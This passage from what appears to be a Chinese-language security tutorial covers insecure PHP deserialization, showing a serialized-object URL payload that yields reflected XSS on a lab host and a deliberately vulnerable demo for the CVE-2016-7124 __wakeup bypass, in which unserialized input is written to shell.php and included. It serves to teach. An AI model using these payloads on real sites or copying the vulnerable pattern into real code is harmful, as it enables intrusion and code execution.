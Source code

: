 构造payload，形成反射型xss

```php
http://10.1.0.30:8000/demo1.php?test=O:1:"A":1:{s:4:"test";s:25:"<script>alert(1)</script>";}
```

![image-20240412104543592](16.%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20240412104543592.png)

# wakeup绕过

## CVE-2016-7124

```php
<?php
class A{
    var $target = "test";
    function __wakeup(){
        $this->target = "wakeup!";
    }
    function __destruct(){
        $filename = __DIR__ . '/shell.php';
        $fp = fopen($filename,"w");
        fputs($fp,$this->target);
        fclose($fp);
    }
}

$test = $_GET['test'];
$test_unseria = unserialize($test);

echo "shell.php<br/>";
$filename = __DIR__ . '/shell.php';
include($filename);
?>
```

